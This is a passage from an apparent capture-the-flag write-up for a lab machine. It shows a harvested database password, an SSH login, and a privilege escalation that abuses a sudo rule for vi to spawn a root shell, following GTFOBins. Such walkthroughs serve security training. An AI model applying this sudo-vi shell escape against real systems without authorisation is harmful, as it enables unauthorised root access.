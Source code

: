 ```
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

*Because the shell is very unstable, we will use the SSH to log in:* ```ssh postgres@10.129.95.174```

*We will type the ```sudo -l``` to see what privileges do we have:*

```
(...)

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

*So we have sudo privileges to edit the pg_hba.conf file using vi by running ```sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf```. We will go to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo) to see if we can abuse this privilege.*

**If the binary is allowed to run as superuser by sudo, it does not drop the elevated
privileges and may be used to access the file system, escalate or maintain privileged
access.**

**sudo vi -c ':!/bin/sh' /dev/null**

```
Sorry, user postgres is not allowed to execute '/bin/vi /etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh' as root on vaccine.
postgres@vaccine:~$ /dev/null
-bash: /dev/null: Permission denied
```

*We are unable to execute the following command because sudo is restricted to only ```/bin/vi /etc/postgresql/11/main/pg_hba.conf```. There's also an alternative way according to GTFOBins:*

```
vi
:set shell=/bin/sh
:shell
```

*So we will perform that as well:*

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

*Now we will press the ```:``` button to set the instructions inside ```Vi```:*

```
:set shell=/bin/sh
:shell
```

Note: to exit vi (or vim) without saving changes (in case of accidental keystrokes), press Esc to ensure you're in command mode. Then type ```:q!``` and press Enter.

*After we execute the instructions, we will see the following:*

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# whoami
root
```
